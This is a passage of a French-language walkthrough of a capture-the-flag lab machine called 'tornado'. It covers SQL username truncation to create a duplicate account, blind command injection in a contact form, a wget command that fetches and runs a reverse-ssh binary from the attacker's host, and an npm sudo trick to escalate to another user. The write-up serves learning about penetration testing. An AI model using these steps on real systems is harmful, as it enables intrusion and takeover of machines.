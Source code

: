 Le principe est que le champ `uname` est déclaré dans le schéma SQL comme un `VARCHAR(13)`. Si le mode strict de SQL est désactivé et que l'on passe plus de caractères, alors ces derniers sont tronqués pour ne conserver que 13 caractères.

Cela ne veut pas dire que l'on peut écraser le compte `jacob` existant, mais sur une appli qui fait une vérification préalable sur la disponibilité d'un utilisateur, on pourrait bypasser ça pour créer un autre compte `jacob`.

Le fait que l'on puisse ensuite accèder à certaines informations dépendra alors de la logique de l'application (est-ce que le nom d'utilisateur est vérifié via une valeur hardcodée ou par exemple via un champ `is_admin` dans la base).

Donc ici, j'enregistre le compte `jacob@tornado1`. Le serveur tronque cela en `jacob@tornado` puis je me connecte avec cet identifiant et le mot de passe que j'ai défini.

Dans la page `contact.php` il y a désormais un champ `comment` qui est vulnérable à une exécution de commande en aveugle. Si on rentre `sleep 10` on obtient une temporisation (Wapiti est capable de détecter ce genre d'injection).

Je lance `reverse-ssh` sur la machine :

```bash
cd /tmp;wget http://192.168.56.1/reverse-sshx64;chmod 755 reverse-sshx64;nohup ./reverse-sshx64&
```

Je peux ensuite m'y connecter sur le port 31337 :

```console
$ ssh -p 31337 192.168.56.116
devloop@192.168.56.116's password: 
www-data@tornado:/tmp$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@tornado:/tmp$ sudo -l
Matching Defaults entries for www-data on tornado:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on tornado:
    (catchme) NOPASSWD: /usr/bin/npm
```

J'utilise un [GTFObin pour npm](https://gtfobins.github.io/gtfobins/npm/) pour atteindre l'utilisateur `catchme` :

```console
www-data@tornado:/tmp$ echo '{"scripts": {"preinstall": "/bin/sh"}}' > package.json
www-data@tornado:/tmp$ sudo -u catchme npm -C . i
npm WARN npm npm does not support Node.js v10.21.0
npm WARN npm You should probably upgrade to a newer version of node as we
npm WARN npm can't make any promises that npm will work with this version.
npm WARN npm Supported releases of Node.js are the latest release of 4, 6, 7, 8, 9.
npm WARN npm You can find the latest version at https://nodejs.org/

> @ preinstall /tmp
> /bin/sh

$ id
uid=1000(catchme) gid=1000(catchme) groups=1000(catchme),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth)
```
